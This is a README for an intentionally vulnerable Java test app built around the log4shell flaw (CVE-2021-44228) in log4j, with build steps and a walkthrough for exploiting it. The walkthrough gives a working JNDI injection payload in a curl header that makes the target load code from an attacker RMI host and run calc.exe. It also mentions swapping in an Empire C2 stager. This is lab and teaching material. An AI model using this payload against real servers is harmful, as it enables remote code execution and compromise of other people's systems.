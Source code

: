 # log4shell vulnerable app 

This is a basic, minimal, intentionally vulnerable Java web application
including a version (2.14.1) of the [log4j](https://en.wikipedia.org/wiki/Log4j)
library affected by the infamous
[log4shell](https://en.wikipedia.org/wiki/Log4Shell) (CVE-2021-44228)
vulnerability.

## build and run instructions

Gradle wrapper should solve everything. Simply git clone the repo:

```
git clone https://github.com/tothi/log4shell-vulnerable-app
```

### running with gradle wrapper

And in the project dir with the file [build.gradle](./build.gradle),
simply run:

```
./gradlew appRun
```

or on Windows platform:

```
.\gradlew.bat appRun
```

JDK is needed. Versions 8 and 11 were tested and are working, 17 seems to
have issues.

### building a portable fat jar

This method builds a one-file portable fat JAR including an embedded
Tomcat server.

Simply run the gradle wrapper with the configured `shadowJar' task:

```
./gradlew shadowJar
```

or on Windows platform:

```
.\gradlew.bat shadowJar
```

The compiled and packages JAR file will be built in the folder `./build/libs`.

It is portable and can be launched using JRE:

```
java -jar ./build/libs/log4shell-vulnerable-app-all.jar
```

The all-in-one portable JAR is available on the [releases page](https://github.com/tothi/log4shell-vulnerable-app/releases) here in the repo.

### interacting with the vulnerable application

The vulnerable application should listen on _all_ interfaces by
default (DANGEROUS behavior if you run it on a production box).

It is available on the URL:

```
http://<IP_ADDR>:8888/app/
```

Note, that the log4j vulnerability triggers only when the app performs
some log4j logging activity. In this demo app, it is active when accessing
the URL:

```
http://<IP_ADDR>:8888/app/servlet
```

and passing a string in the Header "x-log". (This is what gets logged.)
For example, using curl:

```
curl http://<IP_ADDR>:8888/app/servlet -H 'x-log: <payload>'
```

This highlights that __detecting the log4j vulnerability is not obvious at all__.

## exploiting the RCE

Here are some instructions on how to exploit the RCE (even on up-to-date
default Java configurations with TrustURLCodebase set to false).
Tested on Linux and Windows with Java 11.0.1[23].

Simply use the [JNDI Injection Exploit Kit](https://github.com/welk1n/JNDI-Injection-Exploit) by welk1n or a more recent [fork](https://github.com/pimps/JNDI-Exploit-Kit) by pimps.

Steps to perform (in this example, target host is 192.168.56.101 and attacker gost is 192.168.56.1):

1. Launch the vulnerable web app with `.\gradlew.bat appRun`. It listens
on 192.168.56.101:8888 and uses Tomcat 8.5 as a backend. Tomcat 8 (in the classpath) is mandatory for the javax.el.ELProcessor RMI exploit path (supported by the current version of the JNDI Injection Exploit Kit).

2. Launch the JNDI Injection Exploit Kit on the attacker host after building with `mvn package` with `java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'calc.exe'` (the payload will execute calc.exe on the target). Helper servers are started now on 192.168.56.1. Assuming the RMI url for trustURLCodeBase false config is `rmi://192.168.56.1:1099/xzmtee`.

3. Trigger the exploit by sending the malicious payload through the "x-log" header: `curl http://192.168.56.101:8888/app/servlet -H 'x-log: ${jndi:rmi://192.168.56.1:1099/xzmtee}`

4. The app should use the vulnerable log4j for logging the contents of the "x-log" header. While logging, it looks up the referenced RMI URL, and the JNDI Kit sends the RCE payload classloading reference.

5. Note, that instead of logging the actual content of the "x-log" header, the referenced class name ("javax.el.ELProcessor") gets logged.

6. On the target host, calc.exe should be spawned, reaching RCE.

![](./log4shell_rce_demo.png)

UPDATE: here is an extra PoC screenshot for those who are curious and doubt whether launching a calc.exe is useful for anything at all. In this screenshot, replaced the calc.exe payload with an Empire stager giving a full featured C2 Empire Agent (also bypassing up-to-date Windows Defender).

![](./log4shell_rce_demo_empire.png)

